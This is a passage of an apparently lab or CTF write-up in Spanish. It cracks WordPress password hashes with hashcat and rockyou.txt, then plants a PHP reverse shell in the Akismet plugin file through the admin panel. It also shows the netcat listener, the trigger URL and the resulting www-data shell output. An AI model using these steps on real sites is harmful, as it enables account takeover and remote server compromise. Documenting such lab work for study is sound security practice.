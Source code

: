 Con el tipo de hash identificado, el paso siguiente fue proceder a la fase de crackeo. Para ello se utilizó **Hashcat**, seleccionando el modo apropiado para hashes de WordPress (`-m 400`). Como diccionario se empleó la clásica **rockyou.txt**, ampliamente usada en retos de CTF debido a su cobertura de contraseñas comunes.


```bash
──(zikuta㉿zikuta)-[~/Desktop/Wordpress_CVE-2021-29447]
└─$ hashcat -m 400 hash.txt /usr/share/wordlists/rockyou.txt  
```

Resultado:

Password: `teddybear` 

Tras un tiempo de procesamiento, Hashcat logró descifrar los hashes, revelando las contraseñas en texto claro asociadas a las cuentas de usuario obtenidas de la base de datos.

## Obtención de acceso remoto mediante reverse shell

Tras haber descifrado las credenciales del usuario administrador de WordPress, fue posible acceder al panel administrativo con privilegios completos. Con este nivel de acceso, uno de los vectores más directos para obtener ejecución remota es la **edición de plugins**: al modificar un archivo PHP dentro de un plugin legítimo, se puede inyectar código arbitrario que será ejecutado por el servidor web al cargar dicho recurso.

<img width="1916" height="765" alt="Image" src="https://github.com/user-attachments/assets/999d2741-8d52-42d7-8d20-3822f4e08b1d" />

En este caso, el archivo objetivo fue `akismet.php`, correspondiente a un plugin instalado en el entorno. Allí se insertó un fragmento de código PHP diseñado para establecer una **reverse shell**, lo que permitiría conectarse de manera interactiva con el sistema subyacente.

<img width="1917" height="798" alt="Image" src="https://github.com/user-attachments/assets/d1c31e72-75e5-4f41-a10f-c4f65c136b35" />

## Preparación del entorno de escucha

Antes de activar el payload, se levantó un listener en el host de ataque utilizando **Netcat** en el puerto previamente definido. Esto garantizaría que, en el momento en que el servidor web ejecutara el código inyectado, la conexión sería redirigida hacia el atacante, estableciendo un canal de comunicación directo con la máquina víctima.

## Activación de la shell remota

Con el listener en espera, se accedió de manera remota a la ruta del plugin modificado:

```bash
http://10.201.89.142/wp-content/plugins/akismet/akismet.php
```

Al cargar dicho recurso, el servidor procesó el código malicioso y estableció con éxito la conexión hacia el host de ataque. En la consola del atacante se reflejó la recepción de la reverse shell, mostrando información del sistema operativo, la versión del kernel y confirmando que el acceso se obtenía bajo el contexto del usuario del servicio web:

```bash
─(zikuta㉿zikuta)-[~/Desktop/Wordpress_CVE-2021-29447]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.23.120.245] from (UNKNOWN) [10.201.89.142] 37588
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:23:33 up  2:21,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```